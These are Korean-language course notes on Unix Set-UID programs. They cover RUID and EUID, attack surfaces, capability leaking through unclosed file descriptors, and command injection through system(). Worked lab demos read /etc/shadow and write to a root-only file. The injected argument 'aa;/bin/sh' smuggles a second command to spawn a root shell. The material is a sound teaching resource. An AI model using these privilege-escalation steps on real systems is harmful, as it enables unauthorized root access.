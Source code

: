 - Two - Tier Approach
	- 운영체제에서 세밀한 접근 제어를 구현하는 것은 바람직하지 않음
	- 그래서 접근 제어를 위해 특권 프로그램 이용
	  ex) passwd 프로그램 → /etc/shadow 파일에 대한 세밀한 접근 제어 로직 구현
	- 이러한 방식으로 운영 체제의 부담은 줄이고, 접근 제어를 안전하게 처리 가능
- 특권 프로그램의 종류
	- Daemons
		- background에서 돌아가는 프로그램
		- 특권을 가진 사용자에 의해 실행되어야 함
	- Set-UID Programs
		- UNIX 시스템에서 널리 사용
		- 특별한 bit로 mark 되어있다
- Set-UID 개념
	- 사용자가 특정 프로그램 실행 시, 그 프로그램을 소유한 사용자의 특권을 임시로 얻을 수 있는 메커니즘
	- Set-UID 프로그램을 일반 권한으로 실행해도, 소유자 권한으로 실행 됨
	- 각 프로세스는 두개의 ID 소유
		- RUID : 프로세스의 실제 소유자 식별 ID
		- EUID : 프로세스 특권 ID
	- 일반 프로세스 실행 시, RUID = EUID
	- Set-UID 프로세스 실행 시 RUID  ≠ EUID (seed에서 실행 시 RUID = root, EUID = seed)
	- 일반 사용자가 상승된 특권을 가짐
- Set-UID 프로그램으로 전환하기
```shell
cp /bin/cat ./mycat //cat 프로그램 복사

ls -l mycat
>>> -rwxr-xr-x 1 seed seed

sudo chown root mycat //owner seed -> root

ls -l mycat
>>> -rwxr-xr-x root seed // owner changed

mycat /etc/shadow
>>> permission denied

sudo chmod 4755 mycat // change to Set-UID

ls -l mycat
>>> -rwsr-xr-x root seed

mycat /etc/shadow
>>> 정상 출력
```
- Set-UID 작동 방식
	- SUID 프로그램은 특별한 비트가 설정 되어 있다
	  → 이 프로그램이 특정 사용자의 권한으로 실행될 수 있음을 나타냄
	- passwd같은 SUID프로그램이 root 소유이고 SUID 비트 설정되어 있다면 seed는 root권한을 얻어 /etc/shadow 접근 가능
- SUID 보안
	- 일반 사용자에게 특권 부여시, SUID 프로그램을 통해 특권을 일시 획득하는 것 뿐이지 직접 특권 부여하는 것이 아님
	- 그러므로 특정 권한을 얻더라도 프로그램은 제한된 동작만을 수행 가능
	- 모든 프로그램을 SUID로 변경하는 것은 안전하지 않음 → /bin/sh나 vi 주의
- SUID 공격 표면
	- 사용자 입력을 통한 공격
		- 명시적 입력 
			- 버퍼 오버플로우 : 사용자 입력 데이터가 프로그램의 버퍼를 넘어 메모리 영역 침범 → 악의적 코드 실행 가능
			- 형식 문자열 취약점 : 사용자 입력을 문자열로 해석하는 프로그램에서 발생하는 취약점. 프로그램 동작 조작 가능
		- Change Shell(CHSH)과 같은 SUID 프로그램
			- 특권으로 실행하므로 입력을 필터링하지 않으면 보안 문제 발생 가능
			- 쉘 변경 명령 실행 시 입력 검증이 이뤄지지 않으면 새로운 루트 계정을 만들거나 다른 보안문제 초래 가능
	- 시스템 입력을 통한 공격
		- Race Condition : 특권 파일로부터의 심볼릭 링크를 통해 일반 파일에서 특권 파일로 영향 끼칠 수 있음
		- /tmp 폴더같은 world-writable 디렉토리에 쓰기를 통해 프로그램에 영향 가능
	- 환경변수를 통한 공격
		- 환경변수를 설정해 프로그램 동작 조작 가능
		- 사용자가 프로그램 실행 전 설정한 환경 변수를 통해 프로그램 동작에 영향 가능
		- PATH 환경변수
			- 쉘 프로그램에서 명령 실행 시 경로 찾는 변수
			- /bin/sh는 ls 실행 시 PATH를 이용해 실행 파일을 찾음
			- PATH 변수 조작으로 ls 명령 찾기 제어 가능
- Capability Leaking
	- 특정 경우에 특권 프로그램은 실행 중 자신의 권한을 낮추는 경우가 있음
	- su 프로그램은 다른 사용자로 전환하도록 허용하며, 특권을 낮추는 과정에서 특권 누출 가능
	- 특권 하향 전에 특권 기능 미정리시, 특권 누출 가능
	- Capability Leaking을 통한 공격
		- 파일 디스크립터를 닫지 않고 특권이 낮아지면 파일 디스크립터가 여전히 유효할 수 있음
		- 특권이 낮아지기 전에 파일 디스크립터를 삭제해야 취약점 해결 가능
```c 
cap_leak.c

fd = open("etc/zzz", O_RDWR | O_APPEND);
if (fd == -1){
	printf("Cannot open /etc/zzz");
	exit(0);
}
-> file descripter 생성(root owned SUID program), /etc/zzz는 root에 의해서만 쓰기 가능

printf("fd is %d\n", fd);

!close(fd);!

setuid(getuid());
-> 특권 하향

v[0] = "/bin/sh";
v[1] = 0;
execve(v[0], v, 0);
```

```shell
sudo chown root cap_leak
sudo chmod 4755 cap_leak
-> change to root-owned SUID program

ls -l cap_leak
>>> -rwsr-xr-x root seed

cat /etc/zzz
>>> bbb

echo aaa > /etc/zzz
>>> permission denied
-> file에 직접 write 불가능

cap_leak
>>> fd is 3

echo ccc >& 3
-> file descripter 값 3에 직접 redirect 시도: seed도 수정이 가능해진다!

exit

cat /etc/zzz
>>> bbb
>>> ccc
```
- 
	- 위의 예시는 파일을 닫기 전에 fd가 여전히 사용가능해서 발생하는 문제 : Capability Leak이다.
	- 고치려면? 특권 하향 전에 file descripter를 파괴해야한다(close the file)
- Capability Leaking in OS X
	- 동적 링커 dyld에 DYLD_PRINT_TO_FILE 환경 변수를 추가함으로 공격
	- SUID 프로그램에서 root 권한 프로그램이 dyld 호출 시 dyld의 EUID 또한 root가 됨을 이용
- Invoking other programs
	- 일반적으로 SUID 프로그램이 실행하는 외부 명령어는 사용자의 input을 받지 않음
	- 공격
		- 사용자는 종종 외부 명령어에 입력 데이터를 제공하도록 요청받는데,
		- 외부 명령어가 올바르게 호출되지 않으면 사용자의 입력 데이터가 명령어 이름으로 변환될 수 있음 → 위험
	- 안전하지 않은 접근
		- 외부 명령어를 호출하는 가장 쉬운 방법은 system() 함수
		- 아래의 프로그램은 /bin/cat 프로그램을 실행해야 함
		- root 소유 SUID 프로그램이므로 프로그램은 모든 파일을 볼 수는 있지만 쓸 수는 없다
		- 이 프로그램을 사용해 다른 명령어를 root 권한으로 실행해보자
```c
catall.c

int main (int argc, char *argv[]) {
	char *cat = "/bin/cat";
	
	if (argc < 2) {
		priintf("please type a file name");
		return 1;
	}

	char *command = malloc(strlen(cat) + strlen(argv[1]) + 2);
	sprintf(command, "%s %s", cat, argv[1]); 
	-> command 버퍼에 저장된 cat의 문자열 "/bin/cat" 출력, argv[1] 문자열 출력
	system(command); 
	-> /bin/cat
	return 0;
}
```

```shell
$ gcc -o catall catcall.c
$ sudo chown root catall
$ sudo chmod 4755 catall
$ ls -l catall
> -rwsr-xr-x root seed
$ catall /etc/shadow
> 정상 출력
$ catall "aa;/bin/sh"
```